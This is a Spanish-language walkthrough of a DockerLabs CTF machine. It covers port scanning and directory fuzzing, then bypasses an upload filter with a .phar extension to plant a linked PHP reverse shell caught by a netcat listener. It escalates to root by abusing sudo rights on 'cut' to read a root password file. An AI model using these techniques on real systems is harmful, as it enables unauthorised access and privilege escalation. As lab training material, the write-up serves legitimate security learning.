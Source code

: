 # Dockerlabs
![dockerlabs](https://github.com/TBrux/DOCKERLABS/assets/168732212/2763751a-27cd-400b-af47-ce08eac22341)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```
Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Dockerlabs
```
Utilizamos **gobuster** para hacer fuzzing y ver si encontramos algo que nos pueda ser útil.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
```
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## Explotación.

En la página principal no encontramos nada relevante, pero si vemos que hemos encontrado un página **machine.php** que es interesante.
![uploadfile](https://github.com/TBrux/DOCKERLABS/assets/168732212/ff1b1175-d44c-4f6b-a996-333b763e137c)

Intentamos subir un archivo **.php** pero está restingido a solo archivos **.zip**.
Si buscamos en [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload), encontramos diferentes extensiones para hacer un **bypass** y poder ejecutar código php.
```
    PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
```
En este caso, la extensión que nos va a funcionar es **.phar**, así que subiremos una reverse shell en un archivo php, en mi caso he utilizado este de [GITHUB](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) de pentestmonkey.

![reverseshell](https://github.com/TBrux/DOCKERLABS/assets/168732212/479d4098-eee7-493f-813d-68433fa2ebde)

Una vez subido, cuando hemos hecho fuzzing hemos encontrado un directorio llamado **/uploads**, vamos a ese directorio desde el navegador y ahí tenemos nuestra revershell subida.

![uploads](https://github.com/TBrux/DOCKERLABS/assets/168732212/8b7728a5-9405-4a06-b8e4-cb63c4cdb44f)

Ahora nos ponemos en escucha en el puerto configurado en nuestro archivo php y lo ejecutamos.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38426
Linux fce2bf34762f 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 12:49:50 up  2:01,  0 user,  load average: 0.02, 0.28, 0.65
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
Hacemos un tratamiento de la tty.
```bash
script /dev/null -c bash
```
CTRL + Z
```bash
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de privilegios.
En la escalada de privilegios buscamos archivos que podamos utilizar con privilegios de root u otro usuario con más privilegios.
```
www-data@fce2bf34762f:/$ sudo -l
Matching Defaults entries for www-data on fce2bf34762f:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on fce2bf34762f:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
www-data@fce2bf34762f:/$
```
En este caso vamo a utilizar **/usr/bin/cut**, si vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/cut/), podemos ver como utilizar este binario para leer un archivo txt que encontramos en el directorio **/opt**.
```
www-data@fce2bf34762f:/$ cd /opt
www-data@fce2bf34762f:/opt$ sudo /usr/bin/cut -d "" -f1 "/root/clave.txt"
dockerlabsmolamogollon123
www-data@fce2bf34762f:/opt$ 
```
Ahora como parece que tenemos la clave de **root**, probamos a cambiar al usuario **root** y lo tenemos.
```bash
su root
```
```
www-data@fce2bf34762f:/opt$ su root
Password: 
root@fce2bf34762f:/opt# whoami
root
root@fce2bf34762f:/opt#
```

